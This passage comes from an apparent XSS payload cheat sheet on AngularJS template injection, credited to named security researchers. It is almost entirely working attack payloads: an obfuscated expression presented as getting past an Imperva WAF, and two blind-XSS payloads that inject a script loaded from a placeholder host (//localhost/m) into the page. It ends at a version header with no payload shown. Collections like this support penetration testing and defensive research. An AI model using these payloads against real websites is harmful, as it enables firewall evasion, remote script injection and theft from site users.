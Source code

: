   

AngularJS bypass Waf [Imperva]

  

```javascript

{{x=['constr', 'uctor'];a=x.join('');b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'pr\\u{6f}mpt(d\\u{6f}cument.d\\u{6f}main)')()}}

```

  

### Blind XSS

  

1.0.1 - 1.1.5 && > 1.6.0 by Mario Heiderich (Cure53)

  

```javascript

{{

constructor.constructor("var _ = document.createElement('script');

_.src='//localhost/m';

document.getElementsByTagName('body')[0].appendChild(_)")()

}}

```

  
  

Shorter 1.0.1 - 1.1.5 && > 1.6.0 by Lewis Ardern (Synopsys) and Gareth Heyes (PortSwigger)

  

```javascript

{{

$on.constructor("var _ = document.createElement('script');

_.src='//localhost/m';

document.getElementsByTagName('body')[0].appendChild(_)")()

}}

```

  

1.2.0 - 1.2.5 by Gareth Heyes (PortSwigger)

  